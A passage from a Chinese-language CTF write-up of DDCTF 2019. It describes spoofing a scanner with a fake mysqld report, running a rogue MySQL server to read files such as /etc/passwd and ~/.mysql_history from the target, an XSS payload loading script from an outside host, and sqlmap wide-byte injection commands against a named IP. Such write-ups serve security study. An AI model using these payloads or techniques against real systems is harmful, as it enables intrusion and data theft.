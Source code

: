 ![](http://imgs.12end.xyz/ctf/ddctf2019/8.png)  

而此时，我们客户机的Mysql是开启着的。  

同样，将客户机的Mysql关闭，agent.py运行，会提示未扫描到弱密码。mysql的进程名称是mysqld，我们直接修改`self.wfile.write(json.dumps(result))`为mysqld可以成功绕过服务器的判断。  

绕过了，然后呢？  
祭出我@Smi1e师傅的一篇blog：[MySQL LOAD DATA 读取客户端任意文件](https://www.smi1e.top/mysql-load-data-%E8%AF%BB%E5%8F%96%E5%AE%A2%E6%88%B7%E7%AB%AF%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6/)  
>[如何利用MySQL LOCAL INFILE读取客户端文件](https://www.anquanke.com/post/id/106488)

大意是指,主机A连接远程mysql服务器主机B的过程中，所有请求都是明文传输，而我们可以在主机B上伪造任意内容发送给主机A。
而在MySQL中，LOAD DATA LOCAL INFLIE语句会将本地内容传输给远端服务器，下面是执行LOAD DATA LOCAT INFILE的过程：  

`本地向远端服务器发起请求包，请求包含要传输的文件路径`->
`远端服务器对请求进行响应，响应内容为请求包中的文件路径`->
`本地发送响应包中的文件内容`  

如果我们可以伪造响应的任意内容，也就意味着能够读取到连接者本地的任意文件

>最重要的是伪造的服务端可以在任何时候回复一个file-transfer 请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。（前提是客户端已经请求了任意内容，幸运的时，绝大多数客户端都会在连接mysql成功时发送一系列类似@@version的初始化请求）
不过如果想要利用此特性，客户端必须具有CLIENT_LOCAL_FILES即(Can use LOAD DATA LOCAL)属性。如果没有的话，就要在连接mysql的时候加上--enable-local-infile。  

回归正题，为了与靶机建立连接，我们就需要让靶机认为已经连接上了我们的数据库，我们只需向其响应greeting以及authok的数据包即可，然后再发送精心构造好的数据包，让靶机把我们想要的文件给响应过来  
在github上已有相关的项目以部署这样的恶意mysql服务器：[Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)   
在这里以python的脚本为例：  

修改26行的filelist为我们想要读取的文件路径，假设为’/etc/passwd’，先开启agent.py欺骗靶机，告诉它我们已经开启了mysqld进程，再开启这个poc.py，然后让靶机扫描一下我们的客户机：  
![](http://imgs.12end.xyz/ctf/ddctf2019/9.png)
最后的文件信息会在当前目录下的mysql.log：  
![](http://imgs.12end.xyz/ctf/ddctf2019/10.png)  
root用户的mysql操作一般记录在：`~/.mysql_history`中，读取一下就可以拿到flag

### 欢迎报名DDCTF
作者：**evoA**  
太脑洞了，太脑洞了，太脑洞了  
一直以为是sql，直到用xss的exp发现有bot请求  
在报名页面的备注里只对sql进行一点过滤，但是xss没有任何过滤，直接`<script src=//xxxx></script>`即可  
通过xss平台读页面源码读到一个接口  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419111202-e6ca6fe6-6250-1.png)  
`http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=`
测了半天注入还是没东西，结果一堆人做出来后重新复测，注意到返回头GBK  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419111216-ef4871e0-6250-1.png)  
然后就是宽字节注入  
SQLmap加tamper都可以跑  
```
#所有数据库名  
python2 sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1" --tamper unmagicquotes --dbs --hex

#数据库表名  
python2 sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1" --tamper unmagicquotes --hex -D "ctfdb" --tables

#字段名  
python2 sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1" --tamper unmagicquotes --hex -D "ctfdb" -T "ctf_fhmHRPL5" --columns

#flag  
```